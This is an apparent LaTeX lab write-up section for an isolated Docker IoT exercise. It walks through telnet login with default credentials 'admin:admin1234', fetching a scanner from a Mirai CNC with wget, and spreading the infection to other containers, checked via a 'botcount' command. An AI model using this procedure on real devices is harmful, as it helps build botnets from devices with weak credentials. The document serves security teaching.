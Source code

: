 \section{Exercise 3: Spread Mirai}
This exercise has the objective of infecting some containers with the Mirai malware, to achieve this the idea is to get access to one of the IoT devices and then use it to infect the other devices. The target device has ip 192.168.10.5. All the IoT devices have the same credentials which are `admin:admin1234', they were originally found in a made up manual page which can be found here TODO: add page. Since the CNC together with the telnet interface provides an endpoint to download files it can be used as the loader server. The first step is to connect to the target machine using the command `telnet 192.168.10.5', after logging in it is possible to get the actual scanner script from the CNC by using the command `wget mirai-cnc/bins/scanner.py'. There are a few things to consider here, the first one is that instead of the IP it is possible to use the container name `mirai-cnc' since we are inside a docker container in the same network. The other important thing to notice is that we decided to reimplement the scanner because the original scanner targets random machines over the internet. The scanner script is written in python and tests a set of credentials against some known IPs. If the scanner is run as-is it would not connect to any device since it is missing the credentials used by the devices. To solve this issue the script must be updated either from the CNC server or from the host machine. If the CNC route is chosen the file can be found in the folder `/var/www/html/bins/', after editing it, downloading it again on the target machine and running it three machines will be infected. It is possible to verify the infected machines from the CNC Telnet interface, by using the `botcount' command. Even though there are four potential victims only three of them will be infected, this is due to a programming error on our side which led to the scanner not targeting the machine with IP `192.168.10.5'.

\begin{figure}
    \centering
    \includegraphics[width=0.8\textwidth]{resources/images/create_user.png}
    \caption{Commands needed for the fourth exercise}
    \label{fig:database}
\end{figure}


